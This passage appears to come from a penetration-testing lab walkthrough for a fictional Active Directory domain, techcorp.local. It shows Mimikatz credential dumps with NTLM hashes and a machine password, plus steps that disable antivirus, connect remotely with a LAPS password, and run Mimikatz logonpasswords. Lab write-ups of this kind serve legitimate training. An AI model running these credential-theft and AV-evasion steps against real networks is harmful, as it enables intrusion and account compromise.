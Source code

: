 ```powershell
         * Password : (null)
        kerberos :
         * Username : US-MGMT$
         * Domain   : us.techcorp.local
         * Password : 5k:=71Bwt*<iIqp"P\p5DgsJ[^j=i,<;kKSe1hB;qSVkUMqHQ1Ky$vJ?r]#;0bKdotMJHd@L#&.Aaz\@2ml@a+@0c<GYHOyubBK$7JEm6o]6\PLZS-ar3GKM
        ssp :
        credman :

Authentication Id : 0 ; 1566171 (00000000:0017e5db)
Session           : RemoteInteractive from 2
User Name         : mgmtadmin
Domain            : US
Logon Server      : US-DC
Logon Time        : 12/27/2022 3:04:05 AM
SID               : S-1-5-21-210670787-2521448726-163245708-1115
        msv :
         [00000003] Primary
         * Username : mgmtadmin
         * Domain   : US
         * NTLM     : e53153fc2dc8d4c5a5839e46220717e5
         * SHA1     : b263624c0c88da5a05c2ab128f9867ee12148a9a
         * DPAPI    : ae80e77b79bc6e15d004eed1e679a7be
        tspkg :
        wdigest :
         * Username : mgmtadmin
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : mgmtadmin
         * Domain   : US.TECHCORP.LOCAL
         * Password : (null)
        ssp :
        credman :

<snip>
```
# 6. Extracting Credentials and Tokens from `US-MAILGMT`
- We have retrieved the LAPS password for `US-MAILMGMT` which means that we can remotely access the server as the local administrator and steal credentials and tokens, using **Mimikatz**, **Rubeus**and **certutil**, after we temporarily disable AV.
```powershell
PS C:\Auditor> winrs -r:us-mailmgmt.us.techcorp.local -u:.\Administrator powershell
Enter the password for '.\Administrator' to connect to 'us-mailmgmt.us.techcorp.local':
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> .\mimikatz.exe
.\mimikatz.exe

<snip>

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 117259 (00000000:0001ca0b)
Session           : Service from 0
User Name         : provisioningsvc
Domain            : US
Logon Server      : US-DC
```